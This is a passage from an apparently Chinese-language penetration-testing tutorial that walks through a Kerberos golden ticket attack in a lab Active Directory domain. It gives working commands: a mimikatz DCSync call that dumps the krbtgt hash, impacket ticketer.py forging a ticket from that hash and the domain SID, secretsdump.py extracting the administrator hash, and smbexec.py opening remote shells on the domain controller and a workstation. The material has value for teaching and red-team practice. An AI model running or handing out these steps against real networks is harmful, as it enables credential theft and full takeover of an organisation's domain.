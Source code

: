 如下，使用mimikatz获得相关信息：

```
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:krbtgt /csv" "exit" > 1.txt
```

如图所示，通过 mimikatz 执行相关命令查询到 krbtgt 用户的 NTLM 哈希值。以及通过 whoami /all 命令查询出域的 SID 值。

![截图](802e3a7929369c272c935cdceb389ad0.png)

现在我们需要利用这些信息来进行黄金票据传递攻击了。能进行黄金票据传递攻击的工具有很多，这里只介绍使用 impacket、mimikatz 和 CobaltStrike 来进行黄金票据传递攻击。

实验环境如下：

- 域控系统版本：Windows Server 2012R2
- 域控主机名：AD01 • 域控 ip：10.211.55.4
- 域内主机系统版本：Windows10
- 域内主机名：win10
- 域内主机 ip：10.211.55.16

### 1.使用 impacket 进行攻击

我们可以使用 impacket 下的 ticketer.py 脚本来离线生成黄金票据，然后将票据导入内存中，即可使用 secretsdump.py、smbexec.py 等脚本进行后利用。命令如下：

```
#生成黄金票据
python3 ticketer.py -domain-sid S-1-5-21-1313979556-3624129433-4055459191 -nthash badf5dbde4d4cbbd1135cc26d8200238 -domain xie.com administrator

#导入票据
export KRB5CCNAME=administrator.ccache

#导出 administrator 用户的哈希
python3 secretsdump.py -k -no-pass administrator@AD01.xie.com -dc-ip 10.211.55. 4 -just-dc-user administrator

#访问域控 AD01
python3 smbexec.py -no-pass -k administrator@AD01.xie.com -dc-ip 10.211.55.4

#访问域内主机 win10
python3 smbexec.py -no-pass -k administrator@win10.xie.com -dc-ip 10.211.55.4 -codec gbk
```
